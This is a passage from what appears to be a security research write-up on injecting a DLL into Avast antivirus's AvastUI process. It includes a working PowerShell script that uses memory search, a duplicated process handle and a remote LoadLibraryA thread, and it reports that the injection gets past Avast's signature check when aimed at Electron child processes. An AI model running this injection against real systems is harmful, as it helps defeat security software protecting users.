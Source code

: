 If this scenario is expressed in PowerShell code, then the following will be obtained (in addition to the previously mentioned 
NtObjectManager, the script uses the *Search-Memory* cmdlet from the module [PSMemory](https://www.powershellgallery.com/packages/PSMemory/1.1.0)):

{% highlight PowerShell %}
$avastUIs = Get-Process -Name AvastUI
$avastUI = $avastUIs[0]

$localAppDataStrings = $avastUI | Search-Memory -Values @{String='LOCALAPPDATA=' + $env:LOCALAPPDATA}
$pathAddress = $localAppDataStrings.Group[0].Address + 'LOCALAPPDATA='.Length  #[1]

Copy-Item -Path .\MessageBoxDll.dll -Destination ($env:LOCALAPPDATA + '.dll') #[2]

$process = Get-NtProcess -ProcessId $avastUI.Id
$process2 = Copy-NtObject -Object $process -DesiredAccess GenericAll #[3]

$kernel32Lib = Import-Win32Module -Path 'kernel32.dll'
$loadLibraryProc = Get-Win32ModuleExport -Module $kernel32Lib -ProcAddress 'LoadLibraryA' #[4]

$thread = New-NtThread -StartRoutine $loadLibraryProc -Argument $pathAddress -Process $process2 #[5]
{% endhighlight %}

And if we run this code, then... Nothing will happen. Rather, a thread will be created, it will try to load the module, but it will not 
load it, and the worst thing is the loading code, based on the call stack in 
[ProcMon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), is intercepted by *aswSP.sys* driver 
(**A**vast **S**elf **P**rotection) and judging by the access to directories using *CI.dll* it tries to check the signature of the module:

![LoadLibrary failed]({{ site.url }}/assets/images/hooking-system-calls-in-windows-11-22h2-like-avast-antivirus/loadlib_signature_check.png)

It's incredible! Avast not only uses undocumented syscall hooks, but also uses the undocumented kernel-mode library *CI.dll* to validate 
the signature in the kernel. This is a very brave and cool feature, but for us it brings problems: we either need to change the injection 
scheme to fileless, or now look for a bug in the signature verification mechanism as well. I chose the second.

# 0x05 Cached Signing Bug

*AvastUI.exe* is an electron based application and therefore has a specific 
[process model](https://www.electronjs.org/docs/latest/tutorial/process-model) – one main process and several render processes:

![AvastUI process model]({{ site.url }}/assets/images/hooking-system-calls-in-windows-11-22h2-like-avast-antivirus/avastui_process_model.png)

And the fact is that in the case of an unsuccessful injection attempt in the previous section, we tried to inject code into the main 
process, but then, in the process of thinking, I tried to restart the script by specifying child processes as a target and... The injection 
worked.
